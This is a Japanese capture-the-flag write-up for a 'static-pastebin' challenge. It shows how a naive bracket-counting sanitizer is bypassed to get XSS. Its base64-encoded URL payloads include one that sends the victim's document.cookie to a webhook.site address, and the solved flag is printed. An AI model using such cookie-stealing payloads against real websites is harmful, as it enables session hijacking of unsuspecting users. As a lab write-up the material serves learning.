


# static-pastebin

```txt
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here](url)

Site: (url)
```

## 概要

クローラーに提出するページ


自分で試すページ


クローラーに提出するページとテキスト入力するページ。  
`hoge`と入力して`create`を押すと`/paste/#aG9nZQ==`が開かれる。base64だ。  
まぁ、クローラーに提出するのでXSSだろう。

`<s>sss</s>`と入力すると`sss`と表示され、  
`<script>alert()</script>`と入力すると`alert()`と表示された。  
HTMLタグが消去されているようだ。

## 解

`/paste/#aG9nZQ==`の時に読み込んでいる`script.js`に出力してる処理があった。  

```js
(snip)
for (let i = 0; i < input.length; i++) {
    const current = input.charAt(i);
    if (current == '<') {
        brackets ++;
    }
    if (brackets == 0) {
        result += current;
    }
    if (current == '>') {
        brackets --;
    }
}
(snip)
```

`<`でインクリメントして、`>`でデクリメント。0なときだけ出力される。  
ということは、`><s>`のようにすればhtmlが入力できる。

```html
>
```

を入力するとURLにリダイレクトされる。

base64して、クローラーに以下を提出するとurlにアクセスしてくる。

```txt
[url]/paste/#PjxpbWcgc3JjPSJ4IiBvbmVycm9yPSJkb2N1bWVudC5sb2NhdGlvbj1bdXJsXSI+
```

次はCookieを盗む。

```html
>
```

base64エンコードして以下のようなURLで提出。

```txt
[url]/paste/#PjxpbWcgc3JjPSIvIiBvbmVycm9yPSJkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly93ZWJob29rLnNpdGUvMDIzNTJlNDAtMDM3Ny00ZmE3LWIwMjctZDRhMmY2N2E4YzkxLz8nICsgZG9jdW1lbnQuY29va2llIj4=
```

クローラーが`[url]?flag=flag%7B54n1t1z4t10n_k1nd4_h4rd%7D`にアクセスしてくる。

```txt
flag{54n1t1z4t10n_k1nd4_h4rd}
```
